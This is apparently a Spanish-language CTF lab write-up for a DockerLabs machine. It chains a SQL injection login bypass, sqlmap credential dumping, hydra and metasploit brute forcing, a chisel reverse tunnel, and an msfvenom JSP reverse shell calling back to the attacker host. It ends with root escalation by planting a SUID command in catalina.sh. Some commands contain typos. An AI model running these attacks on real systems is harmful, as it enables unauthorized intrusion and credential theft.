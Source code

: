 nmap: 22,80

![image](https://github.com/user-attachments/assets/c7952ccc-1a71-4e0f-8171-57b0b65eff9f)

---

entramos a la pagina principal

![image](https://github.com/user-attachments/assets/5b370534-bdd8-4936-8f3f-2f41dd4890cf)


En el login de la pagina

![image](https://github.com/user-attachments/assets/08eeadc6-b8c7-451d-8990-0d9e60ec74bf)


probamos un sql básico " 'or 1=1-- -" y nos da acceso al panel de control, o sea es vulnerable a un RCE o LFI.  y buscando que mas hacer par obtener algún usuario o algo, encontré que podemos ver la base de datos por esto:

![image](https://github.com/user-attachments/assets/f7d1bf36-5e3a-44ae-b6b6-610cded1346a)


probamos con la base de datos

    sqlpmap --url http://172.17.0.2/login.php --forms --batch --dbs

![image](https://github.com/user-attachments/assets/5135f540-3545-4ba5-9d04-2dd87713d821)


ahora mas especifico:

    qlmap --url http://172.17.0.2/login.php --forms --batch --dbs --time-sec=1 --dump

nos da después de un rato una tabla con usuarios y contraseñas posibles:

![image](https://github.com/user-attachments/assets/763169fd-80d6-447c-be57-2bdafc6f3932)

creamos en nuestra terminal un txt de pass y user. 
luego un hydra para que pruebe combinaciones: 

    hydra -L user.txt -P pass.txt ssh://172.17.0.2 -vV

nos dio: 

![image](https://github.com/user-attachments/assets/e52d80f1-af2d-4400-aa76-828e83f0f9d8)

entramos por el ssh

![image](https://github.com/user-attachments/assets/f7c0fa87-a2b7-41cd-a94f-e3c665e96fac)

y vemos que hay tres usuarios: Alice, Mario y rosa que somos nosotros.

escalamos: encontré esta nota  

![image](https://github.com/user-attachments/assets/d19e416a-dacb-41fd-a87b-8d763cce1240)

![image](https://github.com/user-attachments/assets/f8951e5a-d763-411d-834c-04e1c4690a46)

el contenido de la nota: flowerpower
probé si era la contraseña pero no es
buscando probé con el comando 

     netstat -an

y me dio esto que me llamo la atención

![image](https://github.com/user-attachments/assets/78ebbd5b-efa2-49a3-84c4-9d4d57fd3244)

descargamos chisel: https://github.com/jpillora/chisel/releases/tag/v1.10.0

gunzip chisel
y lo pasamos a la maquina victima con wget mientras tenemos el servidor abierto en nuestra terminal. 

    wget http://172.17.0.2/chisel

![image](https://github.com/user-attachments/assets/426933b9-39c2-4449-a92d-6419d50b27e2)

iniciamos en nuestra terminal un servidor: 

    ./chisel server -p 1234 --reverse
y en la maquina víctima: 

    ./chisel client 172.17.0.1:1234 R:443:127.0.0.1:8080

![image](https://github.com/user-attachments/assets/3951ac97-1b21-4dcd-b412-72d98c1db16e)

entonces entramos al puerto 8080 por el 443:
http://127.0.0.1:443/

![image](https://github.com/user-attachments/assets/ad125df8-1b3c-4920-9000-60a0dce2a4c8)

ahora empezamos a escalar hacia los otros usuarios a través de "manager app" de la pagina tomcat.

como ninguna credencial que buscamos en: https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-web/tomcat

sirvió mas abajo en la misma pagina nos muestra que busquemos por metasploit:

hacemos una fuerza bruta  a través de metasploit con los siguientes pasos:

     - use auxiliary/scanner/http/tomcat_mgr_login
     - set RHOSTS 127.0.0.1
     - set RPORT 8080
     - set USER_FILE /home/skopjee/user.txt
     - set PASS_FILE /home/skopjee/pass.txt
     - set TARGETURI /manager/html
     - run
y nos dio

    [+] 127.0.0.1:8080 - Login Successful: tomitoma:supersecurepasswordultra


ingresamos a mager app

![image](https://github.com/user-attachments/assets/a08c51e3-d37c-4724-b19f-e32878b0b8ce)

creamos un archivo malicioso: 

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f war -o rev.war

lo subimos en el apartado de "WAR"

![image](https://github.com/user-attachments/assets/1b98e90d-1784-408a-8e54-70d09ee51e97)

cargamos y a parecerá en la parte principal de la pagina como "rev"
![[rev.png]]

ahora colocamos el terminal en escucha y nos conectamos
![[dockerlabs/dificil/crackoff/conexion2.png]]

luego de conectarme buscamos como llegar a root:
![[catalina.png]]

escalamos privilegios con sh:

    echo 'chmod u+s /bin/bash' >> /opt/tomcat/bin/catalina.sh

ahora lo iniciamos

     sudo -u root /opt/tomcat/bin/catalina.sh start

si vemos los permisos bash veremos que cambiaron:

 ![[dockerlabs/dificil/crackoff/root.png]]

y al hace el bash -p seremos root!

